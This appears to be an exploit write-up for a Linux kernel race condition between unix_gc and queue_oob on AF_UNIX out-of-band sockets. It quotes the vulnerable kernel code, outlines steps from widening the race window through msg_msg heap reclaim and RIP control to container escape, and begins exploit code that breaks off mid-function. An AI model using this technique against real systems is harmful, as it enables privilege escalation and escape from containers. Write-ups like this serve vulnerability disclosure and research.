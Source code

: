 # Vulnerability
unix_gc() tries to garbage-collect inflight sockets, and then if the socket has MSG_OOB in unix_sk(sk)->oob_skb, GC will drop the reference locklessly.  
It will cause race condition in unix_gc[1] while peer unix socket call queue_oob[2].

* unix_gc
```c
	skb_queue_head_init(&hitlist);
	list_for_each_entry(u, &gc_candidates, link) {
		scan_children(&u->sk, inc_inflight, &hitlist);

#if IS_ENABLED(CONFIG_AF_UNIX_OOB)
		if (u->oob_skb) {
			kfree_skb(u->oob_skb); //[1]
			u->oob_skb = NULL;
		}
#endif
	}

```

* queue_oob
```c
	if (ousk->oob_skb)
		consume_skb(ousk->oob_skb); //[2]

	WRITE_ONCE(ousk->oob_skb, skb);
```



# Exploit Tech Detail
The exploit is consist in the following steps
* Prepare timerfd to extend race window
* Prepare refcount circle to make unix_gc free victim unix_socket
* Race between unix_gc with queue_oob
* Reclaim SKB with msg_msg to control destructor
* Call kfree_skb to RIP Control
* Achieve container escape.

## Prepare timerfd to extend race window
We adopt the exploit tech from `Jann's blog Racing against the clock -- hitting a tiny kernel race window` to extend the race windows
To make race windows larger on kernels without CONFIG_PREEMPT.
* make a timerfd expire in that window (which will run in an interrupt handler - in other words, in hardirq context)
* make sure that the wakeup triggered by the timerfd has to churn through many waitqueue items created by epoll

So function `do_epoll_enqueue` in our exploit code is to do such thing
```C
void do_epoll_enqueue(int fd)
{
	int cfd[2];
	socketpair(AF_UNIX, SOCK_STREAM, 0, cfd);
	for (int k = 0; k < 0x4; k++)
	{
		if (fork() == 0)
		{
			for (int i = 0; i < 0x100; i++)
			{
				timefds[i] = SYSCHK(dup(fd));
			}
```